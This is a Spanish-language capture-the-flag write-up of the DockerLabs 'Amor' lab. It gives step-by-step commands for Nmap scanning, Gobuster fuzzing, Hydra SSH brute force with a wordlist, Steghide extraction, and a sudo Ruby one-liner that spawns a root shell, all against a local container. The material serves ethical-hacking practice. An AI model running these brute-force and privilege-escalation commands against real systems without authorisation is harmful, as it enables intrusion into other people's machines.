 # 🐳 DockerLabs - Reto CTF “Amor”

## 🎯 Objetivo del Laboratorio

El objetivo de este reto fue aplicar técnicas de ciberseguridad ofensiva mediante el despliegue de un entorno CTF utilizando **Docker**. Se resolvieron desafíos progresivos utilizando herramientas como **Nmap**, **Hydra**, **Gobuster**, **Steghide**, entre otras, orientadas a la explotación y escalada de privilegios.

---

## 🛠 Herramientas y Funcionalidades

| Herramienta     | Descripción breve             | Funcionalidad principal               | Casos de uso típicos                  |
|------------------|-------------------------------|----------------------------------------|----------------------------------------|
| **Docker**       | Plataforma de contenedores    | Ejecutar entornos aislados             | Simular laboratorios CTF               |
| **Nmap**         | Escáner de red                | Detectar puertos y servicios activos   | Enumeración de red inicial             |
| **Netdiscover**  | Descubrimiento ARP            | Identificar IPs en red local           | Encontrar contenedores en Docker       |
| **Gobuster**     | Fuzzing HTTP                  | Enumerar rutas ocultas en servidores   | Detectar páginas sensibles             |
| **Hydra**        | Fuerza bruta de credenciales  | Automatizar ataques de login           | Descifrar contraseñas débiles          |
| **Steghide**     | Esteganografía                | Extraer datos ocultos en imágenes      | Forense digital                        |
| **SCP**          | Copia remota segura           | Transferencia de archivos vía SSH      | Extraer evidencia                      |
| **Base64**       | Codificación binaria a texto  | Decodificar cadenas ocultas            | Análisis de contraseñas                |

---

## 🧪 Ejercicio Práctico Paso a Paso

### 📦 Transferencia del reto a Kali

```bash
scp -r amor kali@192.168.1.12:/home/kali/Documents/
```

---

### 🐳 Instalación y despliegue del entorno con Docker

```bash
sudo apt update && sudo apt install docker.io -y
cd amor/
chmod +x auto_deploy.sh
./auto_deploy.sh amor.tar
```

---

### 🌐 Identificación de red

```bash
ip a
```

📌 Alternativas: `ifconfig`, `nmcli`

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```

---

### 🔍 Escaneo con Nmap

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```

📌 Alternativas:
```bash
nmap -T4 -A -v
nmap -O
nmap -sU
```

---

### 🧭 Fuzzing con Gobuster

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

📌 Flags útiles:
- `-x php,html` → Probar extensiones
- `-o resultado.txt` → Guardar salida
- `-s 200,204,301` → Filtrar por códigos válidos

---

### 🔐 Ataque por Fuerza Bruta con Hydra

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

📌 Variantes:
```bash
hydra -L users.txt -P rockyou.txt ssh://172.17.0.2
hydra -s 2222 ...
hydra -V ...
```

---

### 🧑‍💻 Conexión por SSH y navegación

```bash
ssh carlota@172.17.0.2
cd /home/carlota/Desktop/fotos/vacaciones/
```

---

### 📤 Descarga de archivo sospechoso

```bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor/
```

---

### 🧬 Esteganografía con Steghide

```bash
steghide --extract -sf imagen.jpg
```

📌 Resultado: archivo oculto `secret.txt`.

---

### 🔓 Decodificación en Base64

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d
```

---

### ⚡ Escalada de privilegios

```bash
su oscar
sudo -l
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
whoami
```

---

## 🔁 Diagrama de Flujo del Procedimiento

```mermaid
graph TD
A[Inicio] --> B[Transferencia vía SCP]
B --> C[Instalación Docker y despliegue]
C --> D[Identificación de red]
D --> E[Escaneo con Netdiscover y Nmap]
E --> F[Fuzzing con Gobuster]
F --> G[Análisis visual del sitio]
G --> H[Brute Force con Hydra]
H --> I[Acceso SSH con usuario encontrado]
I --> J[Descarga de imagen vía SCP]
J --> K[Análisis con Steghide]
K --> L[Decodificación Base64]
L --> M[Escalada a oscar]
M --> N[Root con Ruby]
N --> O[Fin / Flag encontrada]
```

---

## 🖼️ Imágenes

```markdown
![Resultado de Nmap](imagenes/nmap_resultado.png)
![Imagen descargada sospechosa](imagenes/imagen.jpg)
```

---

## 📚 Fuentes y Referencias

- [DockerLabs.es - Reto Amor](https://dockerlabs.es)
- [THC-Hydra GitHub](https://github.com/vanhauser-thc/thc-hydra)
- [Nmap.org](https://nmap.org/book/man.html)
- [Steghide en Kali](https://pkg.kali.org/pkg/steghide)
- [Gobuster - Herramienta oficial](https://github.com/OJ/gobuster)
- [GNU Base64 Manual](https://www.gnu.org/software/coreutils/manual/html_node/base64-invocation.html)

---

## ✅ Conclusiones

Este reto fue una excelente práctica ofensiva en un entorno controlado. Desde el despliegue del laboratorio hasta la explotación de servicios, análisis forense y escalada de privilegios, se aplicaron múltiples técnicas reales del hacking ético. La documentación presentada busca ser clara, técnica y replicable.